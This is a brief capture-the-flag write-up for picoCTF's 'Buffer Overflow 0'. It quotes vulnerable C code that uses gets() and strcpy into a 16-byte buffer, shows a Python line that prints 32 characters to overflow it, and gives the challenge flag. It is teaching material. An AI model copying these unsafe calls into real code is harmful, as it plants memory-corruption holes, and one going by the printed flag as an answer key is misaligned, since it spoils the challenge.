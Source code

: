 # Buffer Overflow 0

In this challenge we're provided a program and it's source code and meant to exploit it to get the flag. Given the challenge title we can expect how we might do that. We

## Solution

We know we will be performing a buffer overflow attack 

If we look at the source (```vuln.c```) we see:

```
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

We might think given this to see what happens if we pass a 16 char string but this just prints "The program will exit now" as described in this part of the main function

```
printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
```

Let's use python to try a 32 char string:

```
buf = 'a' * 32
print(buf)
```

Passing the output of this to the program gets the flag!

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}
```
